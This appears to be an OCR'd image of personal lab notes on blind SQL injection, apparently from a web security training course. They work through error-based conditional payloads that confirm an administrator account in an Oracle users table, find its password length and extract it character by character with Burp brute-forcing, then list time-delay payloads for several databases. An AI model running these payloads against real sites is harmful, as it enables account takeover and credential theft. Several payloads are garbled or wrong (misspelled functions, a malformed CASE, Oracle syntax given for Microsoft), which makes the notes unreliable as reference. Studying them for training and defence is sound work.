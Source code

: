 #2 CONFIRm THAT THE USER TABLE EXIST 
	--> ' || (SELECT ' ' FROM users WHERE rownum = 1 ) || ' -- 
		--> users table exist 
#3 confirm that the administrator user exist 
	' || (SELECT ' ' FROM users WHERE username = 'administrator' ) || ' --    --> returns 200 either ways 
	-->>	' || (SELECT case WHEN (1 =1 ) then _ else_END from dual ) || ' -- 
				To_char() --> an oracle function that converts number or date to string 
		__>>' || (SELECT case when (1=1) then TO_CHAR (1/0) ELSE '' END FROM users WHERE username ='administrator')  || ' 
			 --> internal error therefore user exist
		__>>' || (SELECT case when (1=1) then TO_CHAR (1/0) ELSE '' END FROM users WHERE username ='adminuytdfghg')  || ' 
			-->200 ok -- user does not exist 
#4 DETERMINE LENGHT OF PASSWORD
__>' || (SELECT case when (1=1) then TO_CHAR (1/0) ELSE '' END FROM users WHERE username ='administrator' AND lenght(password)>1)  || ' 
	--> error -- therefore password is more than 1
__>' || (SELECT case when (1=1) then TO_CHAR (1/0) ELSE '' END FROM users WHERE username ='administrator'  AND lenght(password)>50)  || '
	--> 200 -- therefore password is less 50
__>' || (SELECT case when (1=1) then TO_CHAR (1/0) ELSE '' END FROM users WHERE username ='administrator' AND lenght(password)>20)  || ' 
	-->200 ok -- password is not bigger than 20 
			(bruteforce with burpsuite)
#5 output the Administrator password
__>' || (SELECT case when (1=1) then TO_CHAR (1/0) ELSE '' END FROM users WHERE username ='administrator' AND substr(password 1,1) = 'a')  || '

-- >>' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where  username='administrator' and substr(password,1,1)='a') || ' 	
(bruteforce using burpsuite)

' || (select case where (1=1) then TO_CHAR(1/0) else '' end From user where username = 'administrator' And subsr(password, 1,1) = 'a' )'
' || (select case where (1=1) then TO_CHAR(1/0) else '' end From user where username = 'administrator' And lenght(password)>1 ) || '

----->>>>>>>> 8zaaci2a3boy732viyzi
							izyiv237yob3a2icaaz8
							izyiv237yob3a2icaaz8

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='a') || ' 
--->:>qospy503ffpyffttfgf4

LAB#13 BLIND SQL WITH TIME DELAY
--
BLIND SQL WITH TIME DELAY

VULNERABLE PARAMETER --> TRACKING COOKIE

END GOAL --> PROVE THAT THE PARAMETER IS VULNERABLE TO BLIND SQLI (TIME-BASED)

ANALYSIS
	MYSQL --> ' || (SELECT SLEEP(10))  --
	POSTGRESQL --> ' || (SELECT pg_sleep(10)) --  --> true 
	ORACLE --> ' || (dbms_pipe.receive_message(('a'),10)) --
	MICROSOFT --> ' || (dbms_pipe.receive_message(('a'),10)) --
